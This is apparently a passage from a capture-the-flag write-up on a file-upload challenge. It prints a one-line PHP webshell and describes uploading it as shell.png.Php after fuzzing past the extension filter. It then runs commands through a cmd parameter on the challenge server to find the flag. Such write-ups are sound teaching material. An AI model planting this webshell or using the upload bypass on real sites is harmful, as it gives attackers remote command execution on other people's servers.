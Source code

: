 <br>

![](/images/neuland-ctf-12-2023/upload3.png)

<br>

Furthermore, we set the content of the 'image' to a webshell:

```
<?php system($_REQUEST['cmd']); ?>
```

After some fuzzing, we were able to upload a file named shell.png.Php. Now, we can visit `http://78.46.78.30:1094/uploads/upload1.png.Php?cmd=ls` to view the contents of the previously identified uploads directory. 

<br>

![](/images/neuland-ctf-12-2023/upload4.png)

<br>

We find the flag within the `home` directory.

<br>

![](/images/neuland-ctf-12-2023/upload5.png)

<br>

The flag is `nland{tHANks_4_Ur_fE3DBAck}`.
